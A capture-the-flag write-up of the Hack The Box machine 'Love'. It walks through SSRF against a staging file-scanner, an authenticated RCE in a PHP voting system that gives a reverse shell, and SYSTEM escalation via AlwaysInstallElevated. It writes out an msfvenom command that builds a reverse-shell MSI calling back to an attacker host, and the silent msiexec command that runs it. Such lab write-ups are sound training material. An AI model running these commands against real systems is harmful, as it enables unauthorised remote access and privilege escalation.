This box is rated easy difficulty on HTB. It involves us finding an SSRF vulnerability on a file scanning application that allows us to view an internal password manager. After using gathered administrator credentials to login on the voting system dashboard, we discover that it's vulnerable to authenticated RCE via an unrestricted file upload, granting us a reverse shell. Once on the machine, enumeration shows that both the HKLM and HKCU registers have AlwaysInstallElevated enabled, letting us create a malicious .msi file to escalate privileges to SYSTEM.

## Host Scanning
I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UDP yeilds no results.

```
$ sudo nmap -p80,135,139,443,445,3306,5000,5040,5985,5986,7680,47001,49664-49670 -sCV 10.129.48.103 -oN fullscan-tcp

Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-16 01:30 -0400
Nmap scan report for 10.129.48.103
Host is up (0.055s latency).

PORT      STATE  SERVICE      VERSION
80/tcp    open   http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: Voting System using PHP
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
135/tcp   open   msrpc        Microsoft Windows RPC
139/tcp   open   netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open   ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_http-title: 403 Forbidden
445/tcp   open   microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open   mysql        MariaDB 10.3.24 or later (unauthorized)
5000/tcp  open   http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-title: 403 Forbidden
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
5040/tcp  open   unknown
5985/tcp  open   http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open   ssl/wsmans?
|_ssl-date: 2026-04-16T05:55:13+00:00; +21m39s from scanner time.
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Not valid before: 2021-04-11T14:39:19
|_Not valid after:  2024-04-10T14:39:19
| tls-alpn: 
|   h2
|_  http/1.1
7680/tcp  closed pando-pub
47001/tcp open   http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open   msrpc        Microsoft Windows RPC
49665/tcp open   msrpc        Microsoft Windows RPC
49666/tcp open   msrpc        Microsoft Windows RPC
49667/tcp open   msrpc        Microsoft Windows RPC
49668/tcp open   msrpc        Microsoft Windows RPC
49669/tcp open   msrpc        Microsoft Windows RPC
49670/tcp open   msrpc        Microsoft Windows RPC
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-04-16T05:55:04
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2026-04-15T22:55:01-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 2h06m39s, deviation: 3h30m01s, median: 21m38s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 174.96 seconds
```

Looks like a Windows machine with a lot going on. With that being said, I'll mainly focus on HTTP(S), SMB, and MYSQL to gather information as they could lead to exploitation fairly quickly. I fire up Ffuf to search for subdirectories and Vhosts in the background before heading over to the web servers.

```
$ ffuf -u http://10.129.48.103/FUZZ -w /opt/seclists/directory-list-2.3-medium.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.48.103/FUZZ
 :: Wordlist         : FUZZ: /opt/seclists/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

images                  [Status: 301, Size: 340, Words: 22, Lines: 10, Duration: 61ms]
admin                   [Status: 301, Size: 339, Words: 22, Lines: 10, Duration: 59ms]
plugins                 [Status: 301, Size: 341, Words: 22, Lines: 10, Duration: 59ms]
includes                [Status: 301, Size: 342, Words: 22, Lines: 10, Duration: 56ms]
dist                    [Status: 301, Size: 338, Words: 22, Lines: 10, Duration: 53ms]
licenses                [Status: 403, Size: 422, Words: 37, Lines: 12, Duration: 58ms]
phpmyadmin              [Status: 403, Size: 303, Words: 22, Lines: 10, Duration: 55ms]
webalizer               [Status: 403, Size: 303, Words: 22, Lines: 10, Duration: 58ms]
con                     [Status: 403, Size: 303, Words: 22, Lines: 10, Duration: 61ms]
aux                     [Status: 403, Size: 303, Words: 22, Lines: 10, Duration: 53ms]

:: Progress: [220546/220546] :: Job [1/1] :: 668 req/sec :: Duration: [0:05:16] :: Errors: 0 ::
```

## Web Enumeration
Checking out the landing page on port 80 shows a login panel for some type of voting system. It uses an ID number to validate sign ins, making it a bit harder to brute-force or enumerate usernames.



### Restricted Pages
Both pages on ports 443/5000 return a 403 Forbidden code upon navigating to them. They don't seem to be very helpful unless we come across a way to make requests from a higher privileged standpoint (i.e. SSRF or forging an Admin cookie).



Taking a peek at the self-signed certificate shows domain names of `staging.love.htb` and `love.htb` which I add to my `/etc/hosts` file. The email address used also namedrops Roy as a potential user on the system.



Guest/Null authentication over SMB is disabled as well so public shares are out of the question. WinRM is enabled with and without SSL on this machine, making it easy to grab a shell once credentials are discovered.



### Discovering SSRF
My scans found an Admin panel on the original site which uses a username instead of the voter ID number to authenticate. Testing for names like Admin and Roy shows that we have a way to enumerate users but only the former works.



Checking the 'staging' virtual host reveals a separate site for free file scanning. It's purpose is similar to VirusTotal and will check supplied files and hashes for known malicious fingerprints.



Interestingly, we're allowed to demonstrate how it works by supplying a URL for the page to fetch the file from. After hosting an HTTP server on my local machine and forcing the site to fetch a nonexistent resource, it's apparent that this function is prone to Server-Side Request Forgery.



This is huge as we've already found several pages that have returned a 403 Forbidden code back at us, namely the spot on port 5000. My next request reflects exactly that and we find plaintext admin credentials for the login panel on port 80. 



## Voting System Vulnerability
I also tried fuzzing for other internal web servers with Ffuf, but the three found in our Nmap scan seemed to be the only ones present. Logging into the admin dashboard doesn't give a whole lot of functionality to exploit on the site, but we can see that it's made by SourceCodeSter.



A quick Google search for "SourceCodeSter Voting System" leads me to an [Exploit-DB entry](https://www.exploit-db.com/exploits/49445), disclosing an authenticated Remote Code Execution vulnerability. Further inspection shows that we can upload arbitrary code via the site's image upload feature whilst adding new voters.

### Altering Exploit
For this PoC to work, we need to alter the settings at the top of the code, specifically the website's IP, username/password, and local machine's IP and port number. Along with that, the section containing the URLs needs the `/votesystem` directory part cut out of each, since it needs to match our applications.



After that's taken care of, we can standup a Netcat listener and execute the Python script to get a reverse shell on the machine as Phoebe.



At this point, we can grab the user flag and start internal enumeration to escalate privileges towards administrator.

## Privilege Escalation
Light enumeration on the filesystem does not give me a ton of information to work with. There was nothing in the PowerShell history, no service binaries or DLLs prone to hijacking, and credential reuse failed. I decide to upload WinPEAS to search for any low-hanging fruit I may have missed.



### AlwaysInstallElevated Enabled
Parsing the output shows a few instances of unquotes service paths, however we didn't have the ability to write to any of the corresponding directories. It seems like both the **HKLM** and **HKCU** registers have _AlwaysInstallElevated_ enabled, meaning that users of any privilege can install and execute `.msi` files as _NT AUTHORITY\SYSTEM_.

### Exploitation
Knowing that, we can use msfvenom to create a malicious .msi file that will allow us to catch a reverse shell with elevated privileges.

```
$ msfvenom -p windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.243 LPORT=9001 -f msi -o privesc.msi
```

After transferring that to the vulnerable machine, I standup another Netcat listener and execute the file with Windows' msiexec utility. The following options will display no output on the terminal, but we get a connection on our listener almost instantly.

```
$ msiexec /quiet /qn /i privesc.msi
```



That's all y'all, this box was relatively short and used some interesting methods to exploit the system. I hope this was helpful to anyone following along or stuck and happy hacking!
